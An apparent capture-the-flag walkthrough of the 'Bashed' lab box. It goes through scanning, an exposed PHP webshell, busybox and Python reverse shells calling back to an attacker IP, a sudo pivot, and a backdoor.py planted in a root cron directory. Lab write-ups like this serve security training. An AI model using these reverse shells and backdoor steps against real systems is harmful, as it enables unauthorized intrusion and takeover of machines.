





# Bashed - Easy Box

## Nmap scan results

```
sudo nmap -p- -T4 -sVC -oA nmap/bashed 10.129.45.59
# Nmap 7.95 scan initiated Mon Aug 17 21:17:29 2026 as: nmap -p- -T4 -sVC -oA nmap/bashed -vvv 10.129.45.59
Nmap scan report for 10.129.45.59                                   
Host is up, received reset ttl 63 (0.036s latency).                                                                                     
Scanned at 2026-08-17 21:17:29 EDT for 35s                                                                                              
Not shown: 65534 closed tcp ports (reset)                                                                                               
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)                 
|_http-title: Arrexel's Development Site
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870        
                                                                                                                                        
Read data files from: /usr/bin/../share/nmap        
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug 17 21:18:04 2026 -- 1 IP address (1 host up) scanned in 35.00 seconds
```

Since the nmap scan revealed that there is only 1 open port on the box, port 80, with the http service being the only service running on the box, I went straight to my web browser to look what's interesting on the site.





Looks like the web application is hosting a php webshell, which looks quite similar to the `p0wnyshell.php`. Therefore, I ran a directory fuzzing scan using `FFUF` & added the `.html` as an extension to look for.

```
ffuf -u http://10.129.45.59/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -c -e .html

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.45.59/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Extensions       : .html
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 7743, Words: 2956, Lines: 162, Duration: 17ms]
index.html              [Status: 200, Size: 7743, Words: 2956, Lines: 162, Duration: 18ms]
uploads                 [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 15ms]
php                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 12ms]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 11ms]
.html                   [Status: 403, Size: 292, Words: 22, Lines: 12, Duration: 1428ms]
about.html              [Status: 200, Size: 8193, Words: 2878, Lines: 155, Duration: 2024ms]
dev                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 22ms]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 11ms]
images                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 2850ms]
contact.html            [Status: 200, Size: 7805, Words: 2630, Lines: 157, Duration: 3085ms]
fonts                   [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 34ms]
single.html             [Status: 200, Size: 7477, Words: 2740, Lines: 155, Duration: 15ms]
scroll.html             [Status: 200, Size: 10863, Words: 4284, Lines: 196, Duration: 48ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```
An interesting endpoint that the directory fuzzing scan discovered is `/dev`. So, I went ahead & visited the endpoint.





As expected, the web application is hosting a php webshell, even if only unknowingly, giving us the access to the host machine. I was easily able to retrieve the user flag at `/home/arrexel/user.txt`.



I went ahead & used a bash reverse shell to look for privilege escalation vectors. I used `busybox` for this purpose.

```
busybox nc 10.10.15.73 9001 -e bash
```

And I was successfully able to receive the reverse shell on my local machine.

```
nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 10.129.45.59 43190
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

From here, I first made the shell look like an actual shell.

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg; ls; stty rows 30 columns 136; reset;
export TERM=xterm; export SHELL=/bin/bash;
```

```
www-data@bashed:/var/www/html$ ls
about.html    css          fonts       js           single.html
config.php    demo-images  images      php          style.css
contact.html  dev          index.html  scroll.html  uploads
```

I noticed that in the web root directory where I landed, i.e., `/var/www/html`, there was a config.php file. I tried to see if I can type out the contents of the file, but unfortunately, it didn't reveal anything at all.

```
www-data@bashed:/var/www/html$ cat config.php 
<?php

//SITE GLOBAL CONFIGURATION
$email = "yourmail@here.com";   //<-- Your email

?>
```

I then went into the `php` directory inside the `/var/www/html` directory to see if there's anything interesting there.

```
www-data@bashed:/var/www/html$ ls php
sendMail.php
www-data@bashed:/var/www/html$ cat php/sendMail.php
<?php

include_once (dirname(dirname(__FILE__)) . '/config.php');

//Initial response is NULL
$response = null;

//Initialize appropriate action and return as HTML response
if (isset($_POST["action"])) {
    $action = $_POST["action"];

    switch ($action) {
        case "SendMessage": {
                if (isset($_POST["name"]) && isset($_POST["email"]) && isset($_POST["subject"]) && isset($_POST["message"]) && !empty($_POST["name"]) && !empty($_POST["email"]) && !empty($_POST["subject"]) && !empty($_POST["message"])) {

                    $message = $_POST["message"];
                    $message .= "<br/><br/>";

                    $response = (SendEmail($message, $_POST["subject"], $_POST["email"], $email)) ? 'Message Sent' : "Sending Message Failed";
                } else {
                    $response = "Sending Message Failed";
                }
            }
            break;
        default: {
                $response = "Invalid action is set! Action is: " . $action;
            }
    }
}


if (isset($response) && !empty($response) && !is_null($response)) {
    echo '{"ResponseData":' . json_encode($response) . '}';
}

function SendEmail($message, $subject, $from, $to) {
    $isSent = false;
    // Content-type header
    $headers = 'MIME-Version: 1.0' . "\r\n";
    $headers .= 'Content-type: text/html; charset=iso-8859-1' . "\r\n";
    // Additional headers
    // $headers .= 'To: ' . $to . "\r\n";
    $headers .= 'From: ' . $from . "\r\n";

    mail($to, $subject, $message, $headers);
    if (mail) {
        $isSent = true;
    }
    return $isSent;
}

?>
```

Even the `sendMail.php` file didn't leak any credentials. So, I went ahead & see if the user `www-data` had any sudo privileges.

```
www-data@bashed:/var/www/html$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

Turns out that the user `www-data` can use sudo to swtich to another user on the host, `scriptmanager`, without providing a password for authentication.

```
www-data@bashed:/var/www/html$ sudo -u scriptmanager bash
scriptmanager@bashed:/var/www/html$
```

I then tried to find all the directories & files owned by the user `scriptmanager`.

```
scriptmanager@bashed:/var/www/html$ find / -user scriptmanager 2>/dev/null
/scripts
/home/scriptmanager
/home/scriptmanager/.profile
/home/scriptmanager/.bashrc
/home/scriptmanager/.nano
/home/scriptmanager/.bash_history
/home/scriptmanager/.bash_logout
```

I found a directory, `/scripts`, whose owner is scriptmanager. So, I went ahead to see if there's anything interesting there.

```
scriptmanager@bashed:/var/www/html$ cd /scripts/
scriptmanager@bashed:/scripts$ ls
test.py  test.txt
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
testing 123!scriptmanager@bashed:/scripts$ ls -lah
total 16K
drwxrwxr--  2 scriptmanager scriptmanager 4.0K Jun  2  2022 .
drwxr-xr-x 23 root          root          4.0K Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Aug 18 16:55 test.txt
scriptmanager@bashed:/scripts$
```

Seeing the output of the command `ls -lah` I found that the `test.txt` file is owned by the `root` user rather than the `scriptmanager` user, which means that the file `test.py` was executed by the `root` user or by the `scriptmanager` user but in the context of the `root` user. Which leads us to 2 options:

- Either the file `test.py` is running by the `root` user through cronjobs, or
- The user `scriptmanager` has some kind of sudo privileges which allows the user to execute the file `test.py` in the context of the `root` user.

So, I went ahead & saw if the user `scriptmanager` has any kind of sudo privileges.

```
scriptmanager@bashed:/scripts$ sudo -l
[sudo] password for scriptmanager: 
Sorry, try again.
[sudo] password for scriptmanager: 
Sorry, try again.
[sudo] password for scriptmanager: 
sudo: 3 incorrect password attempts
scriptmanager@bashed:/scripts$
```

Since I didn't have the password for the user `scriptmanager`, I couldn't find out if the user `scriptmanager` has any kind of sudo privileges. However, when I tried to list the cronjobs, I couldn't find any cronjobs to begin with. So, I concluded that the file `test.py` would be executed by the root user periodically, since I cannot view the cronjobs for the user `root` under the context of the user `scriptmanager` who does not seem to have any kind of root privileges.

Therefore, I started a netcat listener on my local machine & wrote a python reverse shell in `test.py` which I suspect is being executed by the `root` user periodically.

```
scriptmanager@bashed:/scripts$ nano test.py
scriptmanager@bashed:/scripts$ cat test.py
import os,pty,socket
s=socket.socket()
s.connect(("10.10.15.73",9002))
[os.dup2(s.fileno(),f)for f in(0,1,2)]
pty.spawn("bash")

f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$
```

And as I suspected, the file was indeed being ran by root in a periodic manner, which I would like to confirm later, & I was able to get a reverse shell in the context of the user `root` & I was finally able to retrieve the root flag on the box at `/root/root.txt`.

```
nc -lvnp 9002
Listening on 0.0.0.0 9002
Connection received on 10.129.45.59 38316
root@bashed:/scripts# ls /root
ls /root
root.txt
root@bashed:/scripts# wc -c /root/root.txt
wc -c /root/root.txt
33 /root/root.txt
root@bashed:/scripts# 
```

## Confirming my Suscpicion

```
root@bashed:/scripts# crontab -l
crontab -l
* * * * * cd /scripts; for f in *.py; do python "$f"; done
root@bashed:/scripts#
```

As we can see, there is indeed an entry for the `root` user in crontabs which forces the user to execute the any python file in the directory `/scripts` every minute, every hour, every day & every month. Also, since the user `root` is executing all files in the `/scripts` directory, I could also have just created a new python file with the reverse shell code in it & I still would have gotten a reverse shell.

## Getting shell as root user without changing the file test.py

I rolled back the changes I made inside `test.py` file.

```
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$
```

Then, I created another file `backdoor.py`.

```
scriptmanager@bashed:/scripts$ nano backdoor.py
scriptmanager@bashed:/scripts$ cat backdoor.py 
import os,pty,socket
s=socket.socket()
s.connect(("10.10.15.73",9002))
[os.dup2(s.fileno(),f)for f in(0,1,2)]
pty.spawn("bash")
scriptmanager@bashed:/scripts$
```

Finally, I just need to wait for the `root` user to execute the `backdoor.py` I created inside the `/scripts` directory & I would get a callback from the box in no time.

```
nc -lvnp 9002
Listening on 0.0.0.0 9002
Connection received on 10.129.45.59 38404
root@bashed:/scripts# id
id
uid=0(root) gid=0(root) groups=0(root)
root@bashed:/scripts#
```